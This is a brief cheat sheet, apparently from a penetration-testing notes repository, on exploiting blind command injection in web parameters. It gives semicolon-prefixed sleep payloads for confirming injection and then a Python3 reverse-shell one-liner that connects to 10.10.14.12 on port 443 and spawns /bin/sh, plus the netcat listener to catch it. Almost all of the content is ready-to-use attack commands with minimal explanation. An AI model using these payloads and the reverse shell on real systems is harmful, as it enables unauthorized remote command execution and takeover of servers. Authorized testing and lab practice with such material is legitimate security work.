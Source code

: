 # Blind Command Injection Test

Testing for blind command injection  

If you suspect a web parameter is vulnerable to command injection but the response is not reflecting any commands injected, test with sleep condition.  

### Bash IF Condition example - validation of oneliner execution before testing on target
```bash
;if [ -f /usr/bin/python3 ]; then echo "FILE FOUND" && sleep 10; else echo "FILE NOT FOUND" && sleep 0; fi
```
![bash](bash.png)

### Bash oneliner if condition test command is going to wait for 10 seconds sleep if file does exist on the target.
```bash
;if [ -f /usr/bin/python3 ]; then sleep 10; else sleep 0; fi
```
* Note: URL encode the injected command before sending to target.  

If the above command results in a response taking 10+ seconds to return, good case for blind command injection on linux target.

### Below is oneline python3 reverse shell
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![Command Injection POST Request](command-injections.png)

### Before sending above Python3 reverse shell command injection, have netcat ready and listening on port 443.
```bash
rlwrap nc -nvlp 443
```
![NetCat listening on port 443 for incoming reverse shell from target](netcat443.png)
